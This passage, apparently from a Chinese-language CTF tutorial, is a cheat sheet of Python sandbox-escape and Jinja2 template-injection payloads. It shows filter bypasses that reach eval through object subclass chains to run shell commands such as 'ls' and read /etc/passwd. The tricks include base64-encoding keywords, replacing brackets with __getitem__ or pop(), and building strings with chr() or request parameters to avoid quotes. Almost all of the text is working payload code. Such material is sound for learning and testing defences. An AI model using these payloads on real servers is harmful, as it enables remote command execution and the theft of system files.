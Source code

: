 ### 编码

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")
```

等价于

`().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))`(可以看出单双引号内的都可以编码)

同理还可以进行rot13、16进制编码等

### 过滤中括号[]

**getitem()**

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
```

**pop()**

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

**字典读取**

```python
__builtins__['eval']()
__builtins__.eval()
```

经过测试这种方法在python解释器里不能执行，但是在测试的题目环境下可以执行

[![img](images\t012afebf2cc02e73a6.png)](https://p1.ssl.qhimg.com/t012afebf2cc02e73a6.png)

### 过滤引号

先获取chr函数，赋值给chr，后面拼接字符串

```python
{% set
chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr
%}{{
().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()
}}
```

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）

```
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```
